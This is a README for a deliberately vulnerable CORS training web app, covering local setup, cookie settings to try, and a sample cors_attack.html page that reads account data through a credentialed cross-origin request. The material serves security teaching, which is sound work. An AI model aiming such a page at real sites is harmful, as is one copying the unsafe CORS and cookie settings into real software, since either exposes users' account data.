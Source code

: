 ## CORS Playground
### Description

CORS playground provides a simple web application that you can utilise to enhance your comprehension of Cross Origin Resource Sharing. By default, it comes with CORS configured in a very unsafe way and could be easily exploited from different origins.

Observing how both CORS and the session's cookie behave under different configurations will greatly increase your knowledge of these two 
critical components of web application security, their common misconfigurations; exploitation and how to secure them properly.

### Default settings
CORS playground runs over https and listens on port number 5555

### URLs/endpoints
```http
POST /login.html
GET /main_page.html
GET /logout
GET /api/v2/accounts
GET /api/v1/accounts
```

### Example
The following is an example of running CORS playground and exploiting CORS misconfigurations from your local machine.

1. Add the following entries to the file /etc/hosts (remove the comments). You could use all these domains to test different values of the domain and SameSite cookie attribute.
```bash
## Domain for the CORS playground application itself.
127.0.0.1 playground.cors.test
## Same level domain as playground.cors.test.
127.0.0.1 project.cors.test
## Subdomain of playground.cors.test
127.0.0.1 pts.playground.cors.test
## parent domain .com.au
127.0.0.1 pts.playground.cors.test.com.au
## parent domain of playground.cors.test
127.0.0.1 cors.test                
## A totally different domain
127.0.0.1 another.domain.com
```
2. Run CORS playground with the command `nodejs app.js` (if running it for first time, first execute the command `npm install` to install the dependencies) then open up a browser to load `https://playground.cors.test:5555/` and log in.
3. Run an Apache web server over TLS.
4. Paste the following HTML code into a file named cors_attack.html (this file is also included in this repository) and save it on your apache webroot which by default is: `/var/www/html/`

```html
<!DOCTYPE html>
<html>
<head><meta charset="UTF-8"></head>
<body>
<script>
 var xhr = new XMLHttpRequest();
 xhr.onreadystatechange = function() {
  if (xhr.readyState == XMLHttpRequest.DONE) {
   console.log(xhr.response);
  }
 }
 url = 'https://playground.cors.test:5555/api/accounts';
 xhr.open('GET',url,true);
 xhr.setRequestHeader('CORS-playground','Penetration Testing Team');
 xhr.withCredentials = true;
 xhr.send();
</script>
</body>
</html>
```
5. Load the following url `https://another.domain.com/cors_attack.html` on a browser, the account information will be displayed on the browser console.
6. Use a http proxy such as Burp or the developer tools of the browser to observe the CORS requests/responses.
### Jump in

1. Add/delete/modify the attributes of the cookie generated within this application. Look for the line:
```node
res.cookie('session',randomvalue.toString(), { httpOnly: true, secure: true, sameSite: 'None'});
```
 Some settings you could try:
```node
res.cookie('session',randomvalue.toString(), {domain: '.playground.cors.test', httpOnly: true, secure: true, sameSite: 'Lax'});
res.cookie('session',randomvalue.toString(), { httpOnly: true, secure: true, sameSite: 'Strict'});
```
2. In the corsHandler function within the code of this application, uncomment the the section you'd like to play with and comment the remaining ones.
### References:
1. [CORS tutuorial](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)
2. [Same Origin Policy tutorial](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)
3. [Cookies tutorial](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)
4. [portswigger CORS labs](https://portswigger.net/web-security/cors)
